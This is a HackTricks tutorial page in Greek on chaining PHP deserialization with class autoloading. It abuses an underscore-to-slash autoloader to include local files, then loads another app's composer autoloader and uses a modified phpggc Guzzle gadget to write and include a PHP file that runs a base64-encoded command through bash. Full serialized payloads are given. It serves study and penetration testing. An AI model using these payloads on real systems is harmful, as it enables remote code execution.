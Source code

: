 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Πρώτα, θα πρέπει να ελέγξετε τι είναι [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

Βρισκόμαστε σε μια κατάσταση όπου βρήκαμε μια **PHP deserialization σε μια webapp** χωρίς **καμία** βιβλιοθήκη ευάλωτη σε gadgets μέσα σε **`phpggc`**. Ωστόσο, στο ίδιο κοντέινερ υπήρχε μια **διαφορετική webapp composer με ευάλωτες βιβλιοθήκες**. Επομένως, ο στόχος ήταν να **φορτώσουμε τον φορτωτή composer της άλλης webapp** και να τον εκμεταλλευτούμε για να **φορτώσουμε ένα gadget που θα εκμεταλλευτεί αυτή τη βιβλιοθήκη με ένα gadget** από την webapp που είναι ευάλωτη σε deserialization.

Βήματα:

* Έχετε βρει μια **deserialization** και **δεν υπάρχει κανένα gadget** στον τρέχοντα κώδικα της εφαρμογής
* Μπορείτε να εκμεταλλευτείτε μια **`spl_autoload_register`** συνάρτηση όπως η παρακάτω για να **φορτώσετε οποιοδήποτε τοπικό αρχείο με κατάληξη `.php`**
* Για αυτό χρησιμοποιείτε μια deserialization όπου το όνομα της κλάσης θα είναι μέσα σε **`$name`**. **Δεν μπορείτε να χρησιμοποιήσετε "/" ή "."** σε ένα όνομα κλάσης σε ένα serialized αντικείμενο, αλλά ο **κώδικας** **αντικαθιστά** τους **υπογραμμούς** ("\_") **με κάθετους** ("/"). Έτσι, ένα όνομα κλάσης όπως `tmp_passwd` θα μετατραπεί σε `/tmp/passwd.php` και ο κώδικας θα προσπαθήσει να το φορτώσει.\
Ένα **παράδειγμα gadget** θα είναι: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Αν έχετε μια **ανάρτηση αρχείου** και μπορείτε να ανεβάσετε ένα αρχείο με **κατάληξη `.php`** μπορείτε να **καταχραστείτε αυτή τη λειτουργία άμεσα** και να αποκτήσετε ήδη RCE.
{% endhint %}

Στην περίπτωσή μου, δεν είχα τίποτα τέτοιο, αλλά υπήρχε μέσα στο **ίδιο κοντέινερ** μια άλλη ιστοσελίδα composer με μια **βιβλιοθήκη ευάλωτη σε ένα `phpggc` gadget**.

* Για να φορτώσετε αυτή τη άλλη βιβλιοθήκη, πρώτα πρέπει να **φορτώσετε τον φορτωτή composer της άλλης διαδικτυακής εφαρμογής** (γιατί ο φορτωτής της τρέχουσας εφαρμογής δεν θα έχει πρόσβαση στις βιβλιοθήκες της άλλης). **Γνωρίζοντας τη διαδρομή της εφαρμογής**, μπορείτε να το πετύχετε αυτό πολύ εύκολα με: **`O:28:"www_frontend_vendor_autoload":0:{}`** (Στην περίπτωσή μου, ο φορτωτής composer ήταν στο `/www/frontend/vendor/autoload.php`)
* Τώρα, μπορείτε να **φορτώσετε** τον **φορτωτή composer της άλλης εφαρμογής**, οπότε ήρθε η ώρα να **`δημιουργήσετε το phpgcc`** **payload** για χρήση. Στην περίπτωσή μου, χρησιμοποίησα **`Guzzle/FW1`**, το οποίο μου επέτρεψε να **γράψω οποιοδήποτε αρχείο μέσα στο σύστημα αρχείων**.
* ΣΗΜΕΙΩΣΗ: Το **παραγόμενο gadget δεν λειτουργούσε**, για να λειτουργήσει έπρεπε να **τροποποιήσω** αυτό το payload **`chain.php`** του phpggc και να ορίσω **όλα τα χαρακτηριστικά** των κλάσεων **από ιδιωτικά σε δημόσια**. Αν όχι, μετά την αποσειριοποίηση της συμβολοσειράς, τα χαρακτηριστικά των δημιουργημένων αντικειμένων δεν είχαν καμία τιμή.
* Τώρα έχουμε τον τρόπο να **φορτώσουμε τον φορτωτή composer της άλλης εφαρμογής** και να έχουμε ένα **phpggc payload που λειτουργεί**, αλλά πρέπει να **το κάνουμε αυτό στην ΙΔΙΑ ΑΙΤΗΣΗ ώστε ο φορτωτής να φορτωθεί όταν χρησιμοποιηθεί το gadget**. Για αυτό, έστειλα έναν σειριοποιημένο πίνακα με και τα δύο αντικείμενα όπως:
* Μπορείτε να δείτε **πρώτα τον φορτωτή να φορτώνεται και μετά το payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Τώρα, μπορούμε να **δημιουργήσουμε και να γράψουμε ένα αρχείο**, ωστόσο, ο χρήστης **δεν μπορούσε να γράψει σε κανέναν φάκελο μέσα στον web server**. Έτσι, όπως μπορείτε να δείτε στο payload, το PHP καλεί **`system`** με κάποιο **base64** που δημιουργείται στο **`/tmp/a.php`**. Στη συνέχεια, μπορούμε να **ξαναχρησιμοποιήσουμε τον πρώτο τύπο payload** που χρησιμοποιήσαμε ως LFI για να φορτώσουμε τον composer loader της άλλης webapp **για να φορτώσουμε το παραγόμενο αρχείο `/tmp/a.php`**. Απλά προσθέστε το στο gadget αποσυμπίεσης:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Περίληψη του payload**

* **Φόρτωση του composer autoload** μιας διαφορετικής webapp στο ίδιο container
* **Φόρτωση ενός phpggc gadget** για να εκμεταλλευτεί μια βιβλιοθήκη από την άλλη webapp (η αρχική webapp που ήταν ευάλωτη σε deserialization δεν είχε κανένα gadget στις βιβλιοθήκες της)
* Το gadget θα **δημιουργήσει ένα αρχείο με ένα PHP payload** σε /tmp/a.php με κακόβουλες εντολές (ο χρήστης της webapp δεν μπορεί να γράψει σε κανένα φάκελο καμίας webapp)
* Το τελικό μέρος του payload μας θα χρησιμοποιήσει **να φορτώσει το παραγόμενο php αρχείο** που θα εκτελέσει εντολές

Χρειαζόμουν να **καλέσω αυτή τη deserialization δύο φορές**. Στις δοκιμές μου, την πρώτη φορά το αρχείο `/tmp/a.php` δημιουργήθηκε αλλά δεν φορτώθηκε, και τη δεύτερη φορά φορτώθηκε σωστά.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
